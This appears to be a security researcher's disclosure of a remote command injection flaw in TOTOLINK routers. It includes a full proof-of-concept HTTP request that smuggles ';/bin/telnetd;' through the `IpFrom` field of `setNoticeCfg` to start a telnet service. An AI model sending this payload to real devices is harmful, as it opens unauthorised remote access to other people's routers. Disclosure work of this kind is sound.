



# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A3100R、A830R、A720R...

Version:A3100R_Firmware(V4.1.2cu.5050_B20200504)、A830R_Firmware(V5.9c.4729_B20191112)、A720R_Firmware(V4.1.5cu.470_B20200911)...

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setNoticeCfg` function,`IpFrom` is directly passed by the attacker, so we can control the `IpFrom` to attack the OS.

<div  align="center"></div>

**Supplement**

Initially, I discovered this vulnerability on A720R, which is located in `cstecgi.cgi`. Interestingly, during the process of observing other devices, I found that this function was encapsulated in `system.so`, such as A3100R; finally, I completed the verification on the A3100R device.


## PoC

We set `IpFrom` as **;bin/telnetd;** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Origin: http://192.168.0.1
Connection: close

{"topicurl":"setting/setNoticeCfg","NoticeEnabled":"1","NoticeUrl":"www.baidu.com","BtnName":"abc123","WhiteListUrl1":"www.baidu.com","WhiteListUrl2":"","WhiteListUrl3":"","IpFrom":";/bin/telnetd;","IpTo":"4","NoticeTimeoutVal":"120"}
```

<div  align="center"></div>


## Result
The target router has enabled the telnet service

<div  align="center"></div>

